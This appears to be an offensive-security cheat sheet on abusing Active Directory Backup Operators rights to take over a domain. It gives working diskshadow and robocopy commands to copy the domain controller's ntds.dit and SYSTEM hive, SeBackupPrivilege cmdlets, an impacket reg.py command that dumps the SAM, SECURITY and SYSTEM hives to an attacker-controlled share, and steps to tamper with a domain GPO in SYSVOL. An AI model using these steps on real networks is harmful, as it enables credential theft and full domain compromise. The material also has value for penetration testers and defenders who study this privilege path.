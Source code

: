 # Backup Operators

Can generally log in on any machines of the domain.

## 1) File System backup

Can backup the entire file system of a machine (DC included) and have full read/write rights on the backup

### 1) To backup a folder:

    robocopy /B C:\Users\Administrator\Desktop\ C:\tmp\tmp.txt /E

### 2) To backup with Diskshadow + Robocopy:

1) Create a script.txt file to backup with Diskshadow

        set verbose onX
        set metadata C:\Windows\Temp\meta.cabX
        set context clientaccessibleX
        set context persistentX
        begin backupX
        add volume C: alias cdriveX
        createX
        expose %cdrive% E:X
        end backupX

2) Backup with 

        diskshadow /s script.txt

3) Retrieve the backup with robocopy and send the NTDS file in the current folder : 

        robocopy /b E:\Windows\ntds . ntds.dit

4) Then retrieve the SYSTEM registry hive to decrypt and profit 

        reg save hklm\system c:\temp\system

### 3) To backup with Diskshadow + DLLs:

1) Similar script for Diskshadow

2) With these DLLs https://github.com/giuliano108/SeBackupPrivilege

        Import-Module .\SeBackupPrivilegeCmdLets.dll
        Import-Module .\SeBackupPrivilegeUtils.dll

        Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit C:\temp\ntds.dit -Overwrite
        reg save HKLM\SYSTEM c:\temp\system.hive

## 2) Registry read rights

The Backup Operators can read all the machines registry

    python3 reg.py 'domain.local'/'user1':'Password123'@<target>.domain.local query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'

##### Backup the SAM, SECURITY and SYSTEM registry keys

    reg.py -dc-ip <DC_IP> 'domain.local'/'user1':'Password123'@server.domain.local backup -o \\<attacker_IP>\share

## 3) GPOs read/write rights

Normally the Backup Operators can read and rights all the domain and DC GPOs with robocopy in backup mode

1) Found the interesting GPO with Get-NetGPO . For example Default Domain Policy in the Domain Controller policy

2) Get the file at the path 

        \\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf 
    
and add whatever you want in it

3) Write the file with robocopy:

        robocopy "C:\tmp" "\\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /ZB
   
